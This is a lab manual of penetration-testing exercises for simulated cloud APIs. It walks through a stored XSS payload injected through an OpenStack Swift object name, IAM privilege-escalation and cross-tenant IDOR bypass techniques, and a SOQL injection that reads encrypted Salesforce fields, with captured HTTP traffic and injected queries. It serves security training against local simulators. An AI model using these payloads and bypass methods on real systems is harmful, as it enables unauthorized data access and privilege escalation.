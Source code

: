 # Exercises

A walkthrough of some sample exercises is provided next. Each respective cloud API simulator also contains additional exercises for you to explore outside of this content.

Each exercise assumes that you have already setup the simulator servers and the respective client tools.

---

<details>
<summary>Cross-site Scripting with REST APIs</summary>

![image](xss-exercise-sample-screenshot.png)

From a web browser (connected with your HTTP MitM Proxy, Burp) navigate to:
> `http://localhost:9080/REST/API/endpoint.cgi`
- If you are using Firefox and your requests are not showing up in Burp try a URL like `http://localtest.me:9080/REST/API/endpoint.cgi`

Observe that the page renders a listing of files stored in a backend OpenStack Swift (Object Storage). In the first release for customers they could use the upload functionality of this page to upload files to the server for storage.

Observe that if you attempt to upload a file with a filename that does not comply to the restrictions that you are blocked. Feel free to try repeating a few malicious payloads via Burp in an attempt to inject XSS on the list page. During the first pen test the service was not found vulnerable to XSS.

##### Customer Version 2
Months later customers demanded a way to more easily bulk upload millions of their data files. The application was updated to allow customers to use the OpenStack cloud REST APIs to perform bulk uploads via the Swift service.

Our subsequent pen test will uncover that an attacker can bypass the filename character input validation and cause XSS to be exploited on the application.

### Useful concepts

1. The Swift CLI for the OpenStack SDK and REST API
   - https://docs.openstack.org/ocata/cli-reference/swift.html
1. Observe: Object Storage != Filesystem Storage nor the same limitations
   - https://docs.openstack.org/api-ref/object-store/index.html#objects

### Baseline Start (QA)

We start by only performing legitimate, expected behaviors (i.e. inputs) of the functionality. This tells us if the service we are testing actually works as well as what a valid request looks like.

```shell
echo $USER > sample_object.txt

swift --insecure -A https://localhost:8080/auth/v1.0 -U system:root -K testpass upload fileuploads ./sample_object.txt

swift --insecure -A https://localhost:8080/auth/v1.0 -U system:root -K testpass upload fileuploads /etc/os-release
```

Observe on the application website (GUI) that the file uploads now appear.

You can also observe the traffic in your HTTP MitM proxy (Burp). You will noticed that there are two calls. One to authenticate with the client credentials and obtain a token. Another to perform the actual upload. In this case we are not attacking the authentication or authorization but instead already have credentials.

### Malicious Input Injection

We observed previously that uploading files via the web browser (HTML/HTTP form upload) resulted in strict validation of the permitted filenames. Is that the case with the standard SDK of the OpenStack REST API?

```shell
swift --insecure -A https://${LAB_OPENSTACK_IP}:8080/auth/v1.0 -U system:root -K testpass copy fileuploads sample_object.txt -d '/fileuploads/easytest<script>alert("you been pwned")</script>forme'
```

Now observe the web UI result. You should see a simple (persistent) XSS payload execute.

Object Storage in the cloud is not strictly file storage. The key name of the object can be a wide range of byte sequences and not strictly characters.

ℹ️ In this example we used an API to copy an item already in the object storage but with a new key name. You could have also uploaded another file with a malicious name. The lesson is that you want to look for multiple possible API calls that were not considered by the application developers to cause unexpected behavior.
</details>

---

<details>
<summary>Authorization Bypass - Privilege Escalation</summary>

### Useful concepts

- Exercise scenario details
  - https://github.com/Coalfire-Research/cazt/blob/main/documentation/lab_manual/scenarios/07-impersonation.md

Identity and access management (IAM) controls include policies that define permissions for the caller of the expected actions (APIs) and resources (IDs). These permissions can allow things or deny things based on a variety of conditional states.

A configuration mistake in a policy by the client/customer/tenant can result in unauthorized access to data or the ability to use the service in unwanted ways. This typically falls on the customer-shared responsiblity.

However, the cloud (or service) provider must also ensure that their systems correctly interept both the policy documents and how it is applied to the user inputs. Failure to do so could result in unauthorized access to the tenant's data or privilege escalation.

### Baseline Start (QA)

From a terminal (connected to your proxy) run the following baseline (QA) command to verify that the service's API is working as expected:

```shell
gcloud cazt pet-sitter \
    --api-endpoint-overrides=https://cazt.gcloud.localtest.me:8443/uat \
    --account=cazt_scen7_impersonation@000000001111 \
    --format json \
    --arn=arn:cloud:iam:us-texas-9:000000001111:CareForPets
```

You'll observe a success response from the service. This is because the psuedo-policy allows access to CareForPets. Reference https://github.com/Coalfire-Research/cazt/blob/main/trainee/iam_policies/cazt_scen7_impersonation.json

### Malicious Input Injection

The goal is to bypass the IAM policy through a flaw in the cloud vendor's (responsibility) system to achieve FullAdmin access.

Attempt the following API REST call:

```shell
gcloud cazt pet-sitter \
    --api-endpoint-overrides=https://cazt.gcloud.localtest.me:8443/uat \
    --account=cazt_scen7_impersonation@00000000111 \
    --format json \
    --arn=arn:cloud:iam:us-texas-9:00000000111:FullAdmin
```

Note:
1. You must not change the `--account` value
   1. The attack is against authori**z**ation, not the authentication
   1. The attacker has only their own credentials, not anothers
   1. Do not change the HTTP authentication header either
1. Verify that the request is visible in your HTTP MitM proxy (i.e. Burp)
1. The response should indicate that your request to the API was denied

##### Goal

The goal is to get a success response like the following:
```json
{
  "Message": "00000000111 using impersonation arn:cloud:iam:us-texas-9:00000000111:FullAdmin"
}
```

##### Attack Methodologies

1. Identify the input to attack
   - In this case "arn"
1. Attempt fuzzing of the input value
   - Encode some characters with URL character encoding escapes
   - Try adding extra spaces at the beginning or end
   - Duplicate the key+value in the JSON
   - Change the value from a single string to an array of values
     - One with the legit value CareForPets, the other FullAdmin
     - Which value is used for authorization versus the business logic?
   - Are the key names or values case sensitive?

##### Solution

```http
TODO add example
```

```http
TODO add example
```

In this case the software bug in the API was that the policy authorization rules were applied with case sensitivity in parts that were case insensitive.

</details>

---

<details>
<summary>Authorization Bypass - IDOR / Confused Deputy</summary>

### Useful concepts

- Exercise scenario details
  - https://github.com/Coalfire-Research/cazt/blob/main/documentation/lab_manual/scenarios/02-cross_tenant.md

Identity and access management (IAM) controls include policies that define permissions defined by the customer/client/tenant owner. An expectation is that only the permissions the tenant chose to grant would permit access to their account data or resources.

The cloud (or service) provider must also ensure that their systems correctly interept both the policy documents, the inputs coming into an API, and whether the caller (tenant) was granted access. This applies for whether the caller is a member of the same tenant account or belongs to another tenant account.

### Baseline Start (QA)

From a terminal (connected to your proxy) run the following baseline (QA) command to verify that the service's API is working as expected:

```shell
gcloud cazt get \
    --api-endpoint-overrides=https://cazt.gcloud.localtest.me:8443/uat \
    --account=cazt_scen2_cross-tenant@123456789012 \
    --format json \
    --name=NotMyMoggy
```

For cloud APIs you will either observe an unauthorized response or a response that the item was not found (because it looked in your own account which did not have it). In this case we notice that NotMyMoggy was created in the tenant account `000000002222` but the caller's credentials are only for account `123456789012`.

ℹ️ If you need to reset the sample data see [CAZT - Populate sample data](configuration.md#populate-sample-data)

### Malicious Input Injection

In your HTTP MitM proxy (Burp) review your previous get API call.

Note:
1. You must not change the `--account` value
   1. The attack is against authori**z**ation, not the authentication
   1. The attacker has only their own credentials, not anothers
   1. Do not change the HTTP authentication header either

You will see in a psuedo-IAM policy that it uses a resource identifier that is longer than just a short id. The long-form of a resource ID looks like `arn:cloud:cazt:REGION:ACCOUNTID:SomeResourceNameOnly` or `//iam.googleapis.com/projects/PROJECT_ID/serviceAccounts/SERVICE_ACCOUNT_EMAIL` or `/subscriptions/xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx/resourceGroups/myResourceGroup/providers/Microsoft.Compute/virtualMachines/myVM` (it varies by the cloud provider).

##### Goal

The end goal is to call the GetMoggy API from the attacker's  `--account=cazt_scen2_cross-tenant@123456789012` to get the resource that belongs to the victim in account `000000002222`.

```json
{
  "ActivityLogObjectStorage": "moggylitterbox-000000002222",
  "CreatedAt": 1751213493,
  "Description": null,
  "Name": "NotMyMoggy"
}
```

##### Attack Methodologies

1. You may assume that the attacker has knowledge of any API resource nomenclature (ARNs) or resource names belonging to the target victim.
   1. IDs are not secrets nor should knowledge of the ID be the only access control
1. The attacker would configure their own tenant account calling user with administrator (or * wildcard) permissions
   1. The attacker does not have any permissions granted by the target victim
   1. The attacker does control their own account so they would grant themselves (in their own tenant account) full admin
   1. This ensure that if the cloud service checks the caller's permissions to the API action only (but not the target resource input) it would not be blocked prematurely
1. Identify the input to attack
   - In this case "name"
1. Attempt fuzzing of the input value
   - Encode some characters with URL character encoding escapes
   - Try adding extra spaces at the beginning or end
   - Duplicate the key+value in the JSON
   - Change the value from a single string to an array of values
     - Which value is used for authorization versus the business logic?
   - Are the key names or values case sensitive?
1. Are there alternative aliases or conventions for defining the identifier?
   - MyShortID
   - arn:cloud:cazt:REGION:ACCOUNTID:MyShortID

##### Solution

```http
TODO add example
```

```http
TODO add example
```

In this case the API software bug was that it assumed only the short-form which it resolved as a relative alias to the full-length identifier. When supplied with an already resolved identifier it did not perform any resolution against the caller's account ID but just trusted the value given.

</details>

---

<details>
<summary>Encrypted Field Data Access Bypass - SOQL Injection</summary>

### Prerequisites

- Install Setup
  - https://github.com/Coalfire-Research/paas-cloud-goat
- You should be logged in using the standard user profile role
- Your web browser should already be connected to your HTTP MitM proxy (Burp)
- The PaaS Cloud Goat applciation has helpful documentation in the lab exercise pages as well

### Baseline Start (QA)

In the PaaS Cloud Goat "welcome" tab navigate to the "Encrypted Field" page

1. The cloud vendor manages the encryption and keys for the encrypted field feature
1. You will observe that the masked values of the encrypted fields correspond to the exact length of the clear-text data
   1. Think of the feature more as an ACL restriction
   1. By default even your Salesforce org administrator does not get access to encrypted fields
   1. There is a checkbox in the Salesforce configuration for granting access to view the data
      - However, this exercise will demo how to bypass the control without a customer misconfiguration
1. Observe on this screen that a Salesforce API change corrected a common developer mistake
   1. The API used to have a clear-text viewing method that was commonly misused and exposed the data
   2. Now the data appears masked regardless

### Malicious Input Injection

Navigate to the page "SOQL Injection - Variant 3" which will simulate a SOQL vulnerability in the application. Execute the default query and observe the request + response in your HTTP MitM proxy (Burp).

```
POST /apex/SOQLInjection3?isdtp=p1&sfdcIFrameOrigin=https://na-personal-dev-ed.develop.lightning.force.com HTTP/2
Host: na-personal-dev-ed--c.develop.vf.force.com
Cookie: ...REDACTED...
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: ...REDACTED...
Content-Type: application/x-www-form-urlencoded
Content-Length: 8103
Origin: https://na-personal-dev-ed--c.develop.vf.force.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4
Te: trailers

...REDACTED...
j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39=j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39&j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39%3Aj_id43=SELECT+id%2Cownerid%2Cisdeleted%2Cname%2Ccreateddate%2Ccreatedbyid%2Clastmodifieddate%2Clastmodifiedbyid%2Csystemmodstamp%2Clastvieweddate%2Clastreferenceddate%2Centrypin__c+FROM+Building__c&j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39%3Aj_id45=Submit&com.salesforce.visualforce.ViewState=...REDACTED...000&com.salesforce.visualforce.ViewStateMAC=AG...REDACTED...%3D&com.salesforce.visualforce.ViewStateCSRF=VmpFPSxNakF5TlMwd09TMHhObFF4TlRvd01qb3dOQzR4TkRaYSxiRmw2U0pWVkFYMXlmZFNLYW5GQ1liSk9jWVZaVXZmOTZ5WVpIYnBNWC1JPSxNVFppTUdNeA%3D%3D
...REDACTED...
```

```
HTTP/2 200 OK
Date: Sat, 13 Sep 2025 15:02:22 GMT
Content-Type: text/html;charset=UTF-8
...REDACTED...

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html lang="en-US"><head><script src="/static/111213/js/perf/stub.js" type="text/javascript"></script><script type="text/javascript">window.Sfdc = window.Sfdc || {};
...REDACTED...
        <h2>Resulting Output</h2>

        <p>
            <pre>[Building__c (Id:a00aj000010xZfbAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:Vault, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:42)]
[Building__c (Id:a00aj000010xZfcAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:Satellite, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:71478)]
[Building__c (Id:a00aj000010xZfdAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:HQ, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:123123)]
[Building__c (Id:a00aj000010xZfeAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:Bunker, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:71927)]</pre>
        </p></div><div class="pbFooter secondaryPalette"><div class="bg"></div></div></div></div><script type="text/javascript">Sfdc.onReady(function(){
	SfdcApp && SfdcApp.Visualforce && SfdcApp.Visualforce.VSManager && SfdcApp.Visualforce.VSManager.vfPrepareForms(["j_id0:j_id35:j_id36:j_id37:j_id39"]);
...REDACTED...
```

The part of the request that you are interested in is the `&j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39%3Aj_id43`. The input parameter name and path were assembled by the service framework for the developer. If you look at the Apex API controller itself it uses more friendly names such as `query`. If you know the Apex controller APIs parameter names you could use those as well:

```
query=SELECT+id%2Cownerid%2Cisdeleted%2Cname%2Ccreateddate%2Ccreatedbyid%2Clastmodifieddate%2Clastmodifiedbyid%2Csystemmodstamp%2Clastvieweddate%2Clastreferenceddate%2Centrypin__c+FROM+Building__c&querySOQL=Submit
```

Note that you must keep the session identifiers such as:
- com.salesforce.visualforce.ViewState
- com.salesforce.visualforce.ViewStateVersion
- com.salesforce.visualforce.ViewStateMAC
- com.salesforce.visualforce.ViewStateCSRF

##### Goal

The end goal is to retrieve the clear-text values of the encrypted fields.

##### Attack Methodologies

Modify the injectable SOQL query for the API /apex/SOQLInjection3.

We are interested in obtaining the encrypted field Ingredient from the `Secret Sauce` object. Since these are custom objects in Salesforce they will require appending `__c` to get their data schema names.

Take our original, unencoded query that retrieved information about buildings:
```sql
SELECT id,ownerid,isdeleted,name,createddate,createdbyid,lastmodifieddate,lastmodifiedbyid,systemmodstamp,lastvieweddate,lastreferenceddate,entrypin__c FROM Building__c
```

To validate if we've guessed or used the correct object schema name we use well known global attributes:

```sql
SELECT id FROM SecretSauce__c
```

Re-encode the query and submit it to the service. If you get results you know you have a valid query. Otherwise you may get an error page or an empty page.

##### Solution

Continuing with guessing the target schema attribute names we arrive at:

```sql
SELECT id,name,SecretIngredient__c FROM SecretSauce__c
```

We observe that even though the user did not have permission to the encrypted field the injection vulnerability allowed us to access the clear-text data.

</details>
